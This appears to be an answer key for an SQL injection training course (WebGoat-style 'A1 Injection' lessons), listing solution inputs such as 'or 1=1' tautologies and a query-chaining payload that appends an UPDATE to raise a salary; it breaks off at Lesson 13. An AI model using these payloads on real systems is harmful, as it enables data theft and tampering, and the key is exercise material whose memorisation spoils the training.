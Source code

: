 # (A1) Injection

## SQL Inejction (intro)

### Lesson 2: What is SQL?

``` sql
SELECT department FROM employees WHERE first_name = 'Bob'
```

### Lesson 3: Data Manipulation Language (DML)

``` sql
UPDATE employees SET department='Sales' WHERE first_name = 'Tobi'
```

### Lesson 4: Data Definition Language (DDL)

``` sql
ALTER TABLE employees ADD phone varchar(20)
```

### Lesson 5: Data Control Language (DCL)

``` sql
GRANT SELECT, UPDATE, INSERT ON TABLE grant_rights TO unauthorized_user
```

### Lesson 9: Try It! String SQL injection

1. `'`
2. `or`
3. `'1'='1`

### Lesson 10: Try It! Numeric SQL injection

1. `1`
2. `1 or 1=1`

### Lesson 11: Compromising confidentiality with String SQL injection

1. `Smith`
2. `3SL99A' or 1 = '1`

### Lesson 12: Compromising Integrity with Query chaining

1. `Smith`
2. `3SL99A'; UPDATE employees SET SALARY=90000 WHERE userid='37648`

### Lesson 13: Compromising Availability
